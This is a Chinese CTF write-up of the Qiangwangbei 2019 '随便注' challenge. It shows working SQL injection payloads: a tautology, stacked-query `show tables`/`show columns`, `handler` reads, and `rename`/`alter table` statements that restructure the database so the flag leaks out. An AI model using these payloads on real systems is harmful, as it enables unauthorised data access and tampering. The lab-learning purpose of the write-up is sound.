






---
date: 2026-10-27
slug: qwb2019-suibianzhu
categories:
  - SQL注入
---

# [强网杯 2019] 随便注

先试万能密码：

```sql
1' or 1=1-- -
```

看着是没什么用的。

接着试其他的，发现了 `select` 等被过滤了：



那么**时间盲注、报错注入、联合查询、布尔盲注就都无法使用了** —— 这几种要么离不开 `select`，要么离不开 `where`。

还有一处容易漏看：过滤名单里带了 `\.`（点）。**点被挡，意味着 `information_schema.tables` 这种写法根本发不出去** —— 所以后面查表只能靠 `show tables`，不是因为我们想省 `select`，是因为连表名都没法用点拼出来。

那就试试**堆叠注入**。堆叠查询可以一次执行多条独立语句，`show`、`handler`、`rename`、`alter` 这些都不需要 `select`，正好绕开过滤。

发现可以。那么就分别进行查表和查列：

```sql
1';show tables;-- -
```



查到两个表：`1919810931114514` 和 `words`。

```sql
1';show columns from `1919810931114514`;-- -
```



```sql
1';show columns from `words`;-- -
```



`words` 表里没有 flag。

到这里有两种做法。

## 做法一：handler

`handler` 就是直接打开一张表、按行读：



通过 `handler` 可以直接查询到 flag：

```sql
1';handler `1919810931114514` open;
handler `1919810931114514` read first;
handler `1919810931114514` close;-- -
```

得到 flag。

**注意**：作为表名的数字要用反引号括起来 —— `1919810931114514` 是一个以数字开头的名字，不加引号 MySQL 不认它是标识符。Linux 下单引号和反引号都可以（单引号在进 MySQL 之前就被 shell 吃掉了），Windows 下只能用反引号。

## 做法二：改表名，让原始查询帮我查

这里我们先推测初始查询语句。

首先通过 `1' -- -` 的回显判断出是**单引号闭合**的。

再通过 `show` 堆叠查询到两个表，通过查询发现 `words` 中有两个列，但是那个数字表中只有一个列。

那么因为在初始查询的时候它返回的是**两个列**，所以这里就知道了它的语句是：

```sql
select * from words where 列 = '1';
```

至于为什么是 `select *`，是因为它回显有两个列；一个列返回的是数字，一个列返回的是数据，这里就可以知道查询的是 `id` 了。

所以最初的查询语句应该为：

```sql
select * from words where id = '$inject'
```

所以到了这里我们就可以利用它固定的原始语句来查询了。既然它查的表名列名分别为 `words` 和 `id`，那我们就把 flag 所在的表名和列名修改为 `words` 和 `id`：

```sql
1';rename table words to everything;
rename `1919810931114514` to words;
alter table words change flag id VARCHAR(100);-- -
```

接着再用万能密码：

```sql
1' or 1=1-- -
```



成功得到 flag。

**这里有个地方值得停一下**：`rename` 之后新的 `words` 表只剩 `id` 一列，而原始语句是 `select *`，页面是按两列渲染的 —— 少一列为什么还能出？

我这边是**直接出的 flag，没有报错**。所以 PHP 那边应该只是把第一列取出来显示，缺第二列不影响，顶多是个 Notice 被吞掉了。

---
